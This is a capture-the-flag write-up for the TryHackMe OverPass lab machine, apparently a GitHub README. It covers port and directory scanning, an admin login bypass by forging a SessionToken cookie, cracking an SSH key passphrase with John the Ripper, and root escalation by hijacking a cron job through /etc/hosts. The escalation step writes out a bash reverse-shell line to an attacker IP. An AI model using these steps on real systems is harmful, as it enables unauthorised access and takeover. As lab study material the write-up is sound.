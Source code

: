 # TryHackMe-OverPass Machine
## Methodology:
### 1. Enumeration & Scanning
### 2. Enumerating HTTP
### 3. Privilege Escalation
----------------------------------------------------------------------
## 1- Start With Enumeration
#### Scanning the target Machine Using Nmap ==>> `nmap -sC -sV [Target IP]`
```
root@mahmoud:~# nmap -sC -sV 10.10.48.101
Starting Nmap 7.91 ( https://nmap.org ) at 2021-12-23 19:12 EET
Nmap scan report for 10.10.48.101
Host is up (0.66s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 37:96:85:98:d1:00:9c:14:63:d9:b0:34:75:b1:f9:57 (RSA)
|   256 53:75:fa:c0:65:da:dd:b1:e8:dd:40:b8:f6:82:39:24 (ECDSA)
|_  256 1c:4a:da:1f:36:54:6d:a6:c6:17:00:27:2e:67:75:9c (ED25519)
80/tcp open  http    Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
|_http-title: Overpass
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 107.01 seconds

```
### So Here W found out there Two open ports:
### 1- SSH 22 OpenSSH
### 2- HTTP 80 Golang net/http server
-------------------------------------------------------------------
## Enumerating HTTP
#### Then Let's Brute Force to searching the files on the web server
#### using command ` gobuster dir -u http://10.10.48.101 -w ~/Lists/gobuster/Gobuster-Dir-Medium.txt -t 30`
### The Result:
```
/img                  (Status: 301) [Size: 0] [--> img/]
/downloads            (Status: 301) [Size: 0] [--> downloads/]
/aboutus              (Status: 301) [Size: 0] [--> aboutus/]
/admin                (Status: 301) [Size: 42] [--> /admin/]
/css                  (Status: 301) [Size: 0] [--> css/]
```
## Let's Open /admin Directory
![Image of mahmoudashraf1344](https://github.com/0x1mahmoud/TryHackMe-Overpass/blob/main/img/THM3.png)
### I have tried the popular credentials... but it's incorrect credentials
### I have opened inspect element to check if there's a js file and i found that there's a 3 js files in debugger
### the login.js is vulnerable...
![Image of mahmoudashraf1344](https://github.com/0x1mahmoud/TryHackMe-Nax/blob/main/img/THM2.png)
### it says that if the response of the authentication request is not “Incorrect Credentials” if the authentication was successful, it then sets the SessionToken to “statusOrCookie”:
### so let's add `cookie: SessionToken=statusOrCookie`
![Image of mahmoudashraf1344](https://github.com/0x1mahmoud/TryHackMe-Overpass/blob/main/img/THM4.png)
### The Result:
![Image of mahmoudashraf1344](https://github.com/0x1mahmoud/TryHackMe-Overpass/blob/main/img/THM5.png)
#### Let's save this ssh key to file like `key` and now we have the username is `james`
#### move forward to using the SSH2John tool to extract the hash from the key
#### First: `root@mahmoud:~# /usr/share/john/ssh2john.py key > hash` ==> I Extract The Hash From key File so i got a "hash" file
#### Second: `root@mahmoud:~# john --wordlist=/usr/share/wordlists/rockyou.txt hash` ==> Now i got the key: james13
#### Note: this is just a key we will login with it via SSH it's not the james password
#### Now we can log in as james via SSH using the private SSH key and the cracked password. ==> `root@mahmoud:~# ssh -i key james@10.10.48.101`
#### after you logged in you will find user.txt it's your first flag :))
----------------------------------------------------------------------------------
## Privilege Escalation
#### 1. Transferring LinPeas using the Python Simple HTTP Server and Wget:
#### 2. Running LinPeas file you transferred to enumerate the machine:==> It means there is a cron job running as root which executes Curl against overpass.thm/dwnloads/src/buildscript.sh
#### 3. overpass.thm is a points at localhost also the /etc/hosts file can be modified by all users so Replacing the overpass.thm entry in /etc/hosts with the local Kali machine’s IP address from 127.0.0.1 to (Kali machine's IP)
#### 4. Creating a Bash script to reverse shell and connect back to the Kali host
#### The Script Code:
```
bash -i >& /dev/tcp/[Your Kali IP]/[PORT] 0>&1

```
#### 5. Then i will Transferring the reverse shell file "buildscript.sh" to the Target Machine
#### 6. let's open the listener by ncat ==> `nact -lnvp [PORT]`
#### 7. the final step run linPeas file again to execute the reverse shell file "buildscript"
#### 8. You will get a root shell to the machine and the second flag in root.txt
-------------------------------------------------------------------------------------------------------
Happy Hack :))
